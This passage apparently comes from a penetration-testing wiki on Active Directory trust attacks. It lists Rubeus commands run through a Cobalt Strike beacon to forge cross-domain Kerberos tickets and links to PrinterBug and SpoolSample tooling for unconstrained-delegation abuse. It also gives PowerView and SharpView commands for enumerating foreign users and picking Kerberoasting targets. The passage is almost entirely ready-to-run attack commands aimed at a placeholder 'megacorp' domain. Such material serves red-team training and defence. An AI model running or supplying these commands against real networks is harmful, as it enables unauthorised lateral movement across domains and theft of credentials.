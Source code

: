 Request inter-realm TGT from current domain to the target domain:

```
beacon> execute-assembly Rubeus.exe asktgs /service:krbtgt/megacorp.external /domain:megacorp.local /dc:DC1.megacorp.local /ticket:<BASE64_TICKET> /nowrap
```

Use inter-realm TGT to request a TGS in the target domain:

```
beacon> execute-assembly Rubeus.exe asktgs /service:cifs/DC1.megacorp.external /domain:megacorp.external /dc:DC1.megacorp.external /ticket:<BASE64_TICKET> /nowrap
```




## UnD + PrinterBug

* [https://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/](https://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/)
* [https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)
* [https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#breaking-forest-trusts](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#breaking-forest-trusts)
* [https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Spoolsample.ps1](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Spoolsample.ps1)
* [https://github.com/BlackDiverX/WinTools/blob/master/SpoolSample-Printerbug/SpoolSample.exe](https://github.com/BlackDiverX/WinTools/blob/master/SpoolSample-Printerbug/SpoolSample.exe)

{% content-ref url="/pentest/infrastructure/ad/delegation-abuse/kud.md" %}
[kud.md](kud.md)
{% endcontent-ref %}




## Attack Forest Trusts

List foreign users and users from foreign groups:

```
PV2 > Find-ForeignUser -Domain [-Domain megacorp.local]
PV3 > Get-DomainForeignUser [-Domain megacorp.local]

PV2 > Find-ForeignGroup -Domain [-Domain megacorp.local]
PV3 > Get-DomainForeignGroupMember [-Domain megacorp.local]

PV > Convert-SidToName ...
```

List user accounts from a target domain with SPNs set for [Kerberoasting](/pentest/infrastructure/ad/roasting.md#kerberoasting):

```
PV3 > Get-DomainUser -SPN -Domain megacorp.local | ? {$_.samAccountName -ne "krbtgt"} | select samAccountName,memberOf,servicePrincipalName | fl
PS > .\SharpView.exe Get-DomainUser -SPN -Domain megacorp.local -Properties samAccountName,memberOf,servicePrincipalName -Filter '(!(samAccountName=krbtgt))'
```
